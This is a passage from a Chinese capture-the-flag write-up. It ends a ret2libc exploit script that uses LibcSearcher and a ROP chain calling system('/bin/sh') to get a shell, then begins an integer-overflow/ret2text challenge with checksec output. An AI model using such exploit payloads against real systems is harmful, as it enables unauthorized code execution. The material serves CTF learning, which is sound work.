 ```

libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')

payload2 = b'A' * offset + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)
p.sendline(payload2)
p.interactive() 
```

运行即可getshell

![](img/d38b3038c4d9f26999a6d1151648d3be.png)

# 0x029.bjdctf_2020_babystack2 - integer overflow + ret2text

惯例的`checksec`，发现只开了栈不可执行保护

![](img/061f8157bc5444b59d044d9d4035a35f.png)
